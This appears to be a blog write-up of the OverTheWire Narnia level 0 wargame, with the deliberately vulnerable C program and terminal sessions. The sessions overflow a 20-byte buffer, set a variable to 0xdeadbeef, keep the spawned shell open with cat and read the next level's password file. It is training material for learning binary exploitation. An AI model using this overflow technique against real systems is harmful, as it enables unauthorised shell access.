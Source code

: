 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 0 -> 1"
subtitle:   "Write-Up"
date:       2017-01-01 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
---
```


<h1>Introduction</h1>

<p>As a part of my New Year's resolutions I decided to improve my knowledge of binary exploitation, learn more by completing challenges from <a href="http://overthewire.org/wargames/">OverTheWire</a>, especially Narnia, as they are aimed to people wanting to learn about basics. </p>

<h1>Challenge</h1>

<p>Firstly, let's take a look at the code of this program. </p>

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}

{% endhighlight %}

<p>Okay, now we know that the binary accepts one string input from the user and puts the string into a buffer of 20 bytes, then if the value of variable <b>val</b> is equal to <b>0xdeadbeef</b>, we will get a shell. Let's try to send to 20 "A" characters, with 4 letters "B", in order to overflow the buffer, and overwrite the value of <b>0x41414141</b> with our "B" letters. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$
{% endhighlight %}

<p>Great, now we know that it works and we're one step closer to the solution. Now let's think how we can change value to <b>0xdeadbeef</b>. First thing to remember - the values need to be in hex format, not characters as I thought at first. In addition, I recalled that the bytes will be in reversed order, so we have to write them from the last to the first one. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef

{% endhighlight %}

<p>We got the shell but it closed immediately! Let's find a way to keep it running, in order to view the password to the next level. </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat /etc/narnia_pass/narnia1) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat: /etc/narnia_pass/narnia1: Permission denied
{% endhighlight %}

<p>Unfortunately, it closed too quickly and the command was executed after the shell had closed. I tried many other commands, and noticed something strange - <b>cat</b> seemed to do exactly what we want! </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
********
{% endhighlight %}

<p>But why is it working? From man page: </p>

<b>With no FILE, or when FILE is -, read standard input.</b>

<h1>Last words</h1>

<p>As I never tought before, this was a great challenge, and I think I got more interested in binary exploitation and reverse engineering. Can't wait to try out some other challenges, and I'll see you in the next one!</p>

<p>~ Stay safe!</p>
